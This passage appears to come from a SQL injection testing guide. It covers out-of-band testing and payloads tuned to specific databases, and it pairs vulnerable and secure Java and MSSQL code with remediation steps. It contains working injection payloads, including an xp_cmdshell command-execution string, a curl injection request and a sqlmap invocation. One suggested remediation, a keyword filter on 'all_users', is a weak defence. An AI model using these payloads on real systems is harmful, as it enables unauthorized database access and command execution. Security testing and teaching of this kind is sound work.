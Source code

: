 **Example Secure Code (MSSQL)**:
```sql
EXEC sp_executesql @query, N'@id int', @id
```
Test: No OOB.

**Remediation**:
- Restrict network access:
  ```sql
  DENY CONNECT ON DATABASE::master TO public
  ```
- Use parameterized queries:
  ```sql
  EXEC sp_executesql @query, N'@id int', @id
  ```

**Tip**: Save OOB callback evidence in a report.

### 7. Test for Database-Specific Payload Tuning

**Objective**: Exploit database-specific SQL injection quirks.

**Steps**:
1. Identify database:
   - Use: `' UNION SELECT @@version --` (MySQL/MSSQL).
2. Inject database-specific payloads:
   - **Oracle**: `' AND 1=(SELECT COUNT(*) FROM all_users) --`
   - **MSSQL**: `' EXEC xp_cmdshell('dir') --`
   - **SQLite**: `' UNION SELECT sqlite_version() --`
   - Use cURL:
     ```bash
     curl -i "http://example.com/page?id=1' AND 1=(SELECT COUNT(*) FROM all_users) --"
     ```
3. Check responses:
   - Look for database-specific output.
4. Use SQLMap:
   ```bash
   sqlmap -u "http://example.com/page?id=1" --dbms=oracle --tables
   ```

**Example Vulnerable Code (Java)**:
```java
String query = "SELECT * FROM users WHERE id = '" + id + "'";
stmt.executeQuery(query);
```
Test: `id=1' AND 1=(SELECT COUNT(*) FROM all_users) --`
Result: Oracle-specific output.

**Example Secure Code (Java)**:
```java
PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE id = ?");
stmt.setString(1, id);
```
Test: No injection.

**Remediation**:
- Use prepared statements:
  ```java
  stmt.setString(1, id);
  ```
- Database-specific filters:
  ```java
  if (id.contains("all_users")) throw new SQLException();
  ```
